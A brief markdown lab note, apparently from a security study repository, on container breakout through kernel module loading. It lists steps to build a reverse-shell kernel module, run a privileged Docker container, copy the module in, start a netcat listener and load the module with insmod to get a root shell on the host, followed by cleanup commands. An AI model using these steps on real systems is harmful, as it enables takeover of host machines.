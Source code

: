 # Linux system module abuse

- imapct
    - reverse host root shell

- Breakout Privileged
    - all
    - actually cap_sys_module

- change reverse_shell.c ip address(ip addr (apt-get install iproute2))

- action
    
    (on host)
    - make 
    - docker run -it --privileged ubuntu:22.04 bash
    - docker cp reverse_shell.ko 2398764aw2:/
    - nc -nvlp 8888 (apt-get install netcat)
    - insmod reverse_shell.ko (apt-get install kmod)


- recovery command
    - make clean
    - rmmod reverse_shell